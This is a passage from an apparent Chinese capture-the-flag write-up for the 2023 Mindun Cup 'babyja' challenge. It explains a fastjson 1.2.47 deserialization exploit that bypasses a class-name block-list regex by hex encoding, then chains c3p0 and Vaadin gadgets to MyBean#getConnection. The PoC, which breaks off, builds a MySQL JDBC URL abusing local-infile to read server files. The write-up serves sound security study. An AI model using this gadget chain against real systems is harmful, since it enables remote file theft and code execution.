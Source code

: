 ```java  
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162232060.png)
# 2023闽盾杯初赛 babyja  
```bash  
docker run -it -d -p 12345:8080 -e FLAG=flag{8382843b-d3e8-72fc-6625-ba5269953b23} lxxxin/mdb2023_babyja  
```  
## 0x01 解题记录  
`pom.xml`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411171437315.png)
这几个依赖均存在漏洞，看一下控制器  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411171438167.png)
`JSON.parse`解析了传入的`data`，存在`fastjson`解析漏洞  
同时也进行了 waf  
```java  
private void checkForBlockedClasses() {    
    Pattern pattern = Pattern.compile(&#34;(?i)(TemplatesImpl|JdbcRowSetImpl|Jndi|54656D706C61746573496D706C|BadAttributeValueExpException)&#34;);    
    if (pattern.matcher(this.input).find()) {    
        throw new SecurityException(&#34;hacker&#34;);    
    }    
}  
```  
过滤了`TemplaesImpl`、`JdbcRowSetImpl`等常用的 sink 点  
不过题目还是提供了`MyBean`类`getConnection()`方法可以进行利用  
这里直接利用`fastjson1.2.47`打`c3p0`二次反序列化  
二次反序列化的内容是`Vaadin1`依赖触发`getConnection`  
触发点仍是`BadAttributeValueExpException`，因为题目中虽然过滤了`BadAttributeValueExpException`但是并未过滤其十六进制  
POP Chains:  
`BadAttributeValueExpException#readObject#-&gt;Vaadin1#getter-&gt;MyBean#getConnection()`  
```java  
import com.ctf.bean.MyBean;    
    
import javax.management.BadAttributeValueExpException;    
import java.io.ByteArrayOutputStream;    
import java.io.IOException;    
import java.io.ObjectOutputStream;    
import java.io.StringWriter;    
import java.lang.reflect.Field;    
import com.vaadin.data.util.NestedMethodProperty;    
import com.vaadin.data.util.PropertysetItem;    
    
public class Poc {    
    
    public static void main(String[] args) throws Exception {    
        MyBean myBean = new MyBean();    
        myBean.setDatabase(&#34;mysql://127.0.0.1:3306/test?user=fileread_file:///.&amp;ALLOWLOADLOCALINFILE=true&amp;maxAllowedPacket=65536&amp;allowUrlInLocalInfile=true#&#34;);    
        NestedMethodProperty&lt;Object&gt; nestedMethodProperty = new NestedMethodProperty(myBean,&#34;Connection&#34;);    
        PropertysetItem propertysetItem = new PropertysetItem();    
```